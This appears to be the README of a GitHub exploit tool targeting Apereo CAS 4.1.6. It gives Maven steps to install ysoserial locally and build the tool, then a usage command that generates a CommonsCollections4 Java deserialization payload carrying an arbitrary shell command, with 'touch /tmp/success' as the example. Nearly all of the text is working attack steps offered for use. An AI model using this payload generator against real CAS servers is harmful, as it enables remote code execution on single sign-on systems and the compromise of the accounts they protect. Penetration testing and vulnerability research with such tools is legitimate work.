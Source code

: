 # Apereo-CAS attack

## Installation

Steps to install:

- Download [ysoserial](https://github.com/frohoff/ysoserial) to `ysoserial-master-30099844c6-1.jar`
- Install it to local maven:

```
mvn org.apache.maven.plugins:maven-install-plugin:2.5.2:install-file -Dfile=ysoserial-master-30099844c6-1.jar -DgroupId=ysoserial -DartifactId=ysoserial -Dversion=0.0.6 -Dpackaging=jar -DlocalRepositoryPath=my-repo
```

- Build JAR file:

```
mvn clean package assembly:single
```

## Usage

Generate a `CommonsCollections4` Payload for Apereo-CAS 4.1.6:

```
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/success"
``` 
